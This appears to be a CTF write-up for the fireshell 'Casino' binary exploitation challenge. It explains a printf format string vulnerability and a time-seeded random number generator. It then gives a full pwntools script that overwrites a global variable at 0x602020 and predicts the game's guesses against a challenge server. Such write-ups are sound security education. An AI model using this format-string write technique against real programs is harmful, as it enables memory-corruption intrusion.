









# Casino (pwn)
Even though this had a low point value, this is definitely the hardest CTF binary exploitation challenge that I have solved in a long while...

## Problem Statement:



## Initial Analysis:
As always, with every binary exploitation problem, we begin by taking a look at the protections enabled on the binary:



What's noteworthy is that full-RELRO is enabled. Normally, this is disabled for performance reasons. Since full-RELRO makes the GOT-table read only, we can infer that one of the vulnerabilities could allow us to write to the GOT table, and so we need to find some other ways to exploit this program. Let's run this binary and see what happens:



Ok, there seems to be some number guessing going on (hence the name "casino"). Also, the first input that we gave to the program is echo'd out back to us. From experience, this might hint to us to try out format strings, which is confirmed below:



This also explains why full-RELRO is enabled on the binary. Now, time to look at the assembly code for in-depth analysis.

## Disassembly Analysis:

Below is the code for the random seed generation:



and below is the code for the random numbers:



Basically, time() is called with a given parameter of 0, which returns the current epoch time in seconds. Frequently, this is enough to serve as a seed of rand(), however within this program it gets a bit more complex. The "mov edx, cccccccDh; mul edx" instructions multiplies the time by 0xcccccccd, the "shr eax, 3" instruction shifts the most significant 32 bits of eax from the multiplication result to the right by 3, and the "mov eax, cs:bet; add [rbp+seed], eax;" adds the final result by whatever is stored in the global variable bet. This is then finally saved as the seed for the srand() function. Although this looks complicated, we can emulate the seed generation by using the below python snippet:

```python
seed = int(time())
seed = seed * 0xcccccccd
seed = int(str(hex(seed))[:10], 16)
seed = seed >> 3
seed = seed + bet
```

The rest of main() generates 100 values based on the returned result of rand(). Using the same idea described in one of the challenge writeups in [TJCTF](https://medium.com/@mihailferaru2000/tjctf-2018-full-binary-exploitation-walk-through-a72a9870564e), we can generate 100 values using the rand() number generater by passing the seed as a command line parameter below:

```C
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
    int seed = atoi(argv[1]);
    srand(seed);
    for(int i = 0; i < 100; i++) {
        printf("%d\n", rand());
    }
    return 0;
}
```
Combine the output of the 100 numbers, and we should be good to go............

...........or not.

## Format string attack

What went wrong? Well, a closer look at the disassembly reviewed the answer. A value "which I named dowewin" is initialized with 0, and after each random number guess, it is incremented by the value of bet, which was initially set to 1. However, since we start at 0, after 100 numbers, we only reach 99. This "dowewin" value must be greater than 100 after all the numbers are guessed, so even after we finished generating all the values, we won't be able to get the flag. Foiled!

...however, remember from earlier, we have a format string vulnerability. Although we cannot write to the GOT table, we can write to bet, since it is a global variable that is located in the .data section of the binary at address 0x602020, which has read/write permissions.

Unfortunately when we tried to write anything to that location, we ran into a few more problems:

First, our buffer is only 16 bytes long, which is very, very small. The second issue is illustrated below:

It's very subtle, but the second issue is that printf stops when it hits a single null byte (otherwise the AAA's will be printed), as C-strings are null terminated. However since 0x602020 is only a 24 bit address and printf only reads 64-bit addresses at a time, we must fill the rest of the 64-bit value with null bytes.

This issue caused me 4 hours of pain, as I tried various methods of overflow, writing 0x602020 to some arbitrary location on the heap and fetching it, and writing 0x602020 to the stack itself and getting lucky with ASLR

Eventually, I worked around it by writing the address to the last 64 bits of the buffer, and doing the format string attack with the first 64 bits of the buffer, and it finally worked:



The 'bet' variable is now 9 instead of 1, so the seed generation portion of the exploit must be adjusted accordingly. After that, it was smooth sailing from there.

## Full exploit script:
```python
from pwn import *
from time import time
import subprocess

bet = 0x602020

game = remote('35.243.188.20', 2001)

#Overwrite bet with 0x9, so that the casino can't cheat me (easily the hardest part)
game.recvuntil("name? ")
fmtstr = "%9x%11$n"
fmtstr += "\x20\x20\x60\x00\x00\x00\x00\x00"
game.sendline(fmtstr)

#Abuse the PRNG that is seeded with the current time after multiplying with 0xcccccccd, stripping the lower half, and shifting right by 3
seed = int(time())
log.info("Current time: " + str(seed))
seed = seed * 0xcccccccd
seed = int(str(hex(seed))[:10], 16)
seed = seed >> 3
seed = seed + 9

log.success("Random seed value: " + str(seed))

#Generate the 100 values with the calculated seed value
log.info("Generating 100 values with the calculated seed value...")
rng = subprocess.Popen(['./rand', str(seed)], stdout=subprocess.PIPE)
output = rng.stdout
log.success("Values Generated!")


valueList = []
for i in range(100):
	valueList.append(output.readline().strip())
log.success("Values Filled!")

#Play the game!
for value in valueList:
	progress = game.recvuntil("number: ")
	print progress
	log.info("Trying " + str(value))
	game.sendline(str(value))
	result = game.recvline()
	if "Sorry!" in result:
		log.failure("Guess was incorrect. Aborting...")
		exit()
	elif "Correct" in result:
		if "99/100" in progress:
			log.success("WE FINALLY WIN!")
			win = game.recvline()
			print win
			flag = game.recvuntil('}')
			print flag
			exit()
		log.success("Guess was correct! Keep going...")
```
## Epilogue
And after much blood, sweat, and tears, we finally get the flag:



Thanks to the fireshell CTF team for this challenge, it caused me to rage so much but getting the flag at the end was so worth it!


